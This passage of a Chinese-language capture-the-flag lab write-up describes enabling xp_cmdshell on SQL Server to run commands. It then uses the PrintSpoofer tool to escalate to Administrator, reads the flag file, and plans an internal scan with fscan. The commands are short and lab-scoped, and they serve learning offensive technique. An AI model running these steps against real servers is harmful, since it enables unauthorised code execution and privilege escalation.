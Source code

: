 ```
配置选项 'xp_cmdshell' 已从 0 更改为 1。请运行 RECONFIGURE 语句进行安装。
```

启动成功

接下来就可以进行命令执行了

```
exec master..xp_cmdshell 'whoami'
```

![image-20250309190932671](../assets/image-20250309190932671.png)

接下来直接vshell一句话上线

![image-20250309192014708](../assets/image-20250309192014708.png)

没找到flag，发现Administrator文件夹没有权限

想到要提权，传一个PrintSpoofer进行提权

https://github.com/whojeff/PrintSpoofer

```cmd
PrintSpoofer.exe -i -c cmd
```

![image-20250312192829416](../assets/image-20250312192829416.png)

提权之后拿到flag

```cmd
C:\Tmp>type C:\Users\Administrator\flag\flag01.txt
 _________  ________  ________  ___       ___  _______   ________   _________
|\___   ___\\   ____\|\   ____\|\  \     |\  \|\  ___ \ |\   ___  \|\___   ___\
\|___ \  \_\ \  \___|\ \  \___|\ \  \    \ \  \ \   __/|\ \  \\ \  \|___ \  \_|
     \ \  \ \ \_____  \ \  \    \ \  \    \ \  \ \  \_|/_\ \  \\ \  \   \ \  \
      \ \  \ \|____|\  \ \  \____\ \  \____\ \  \ \  \_|\ \ \  \\ \  \   \ \  \
       \ \__\  ____\_\  \ \_______\ \_______\ \__\ \_______\ \__\\ \__\   \ \__\
        \|__| |\_________\|_______|\|_______|\|__|\|_______|\|__| \|__|    \|__|
              \|_________|


Getting flag01 is easy, right?

flag01: flag{5ee60dcf-4f7b-4e2a-977e-cbf1697d8df4}


Maybe you should focus on user sessions...

```

提权之后用提权后的账户重新上一下线



接下来用fscan扫一下内网
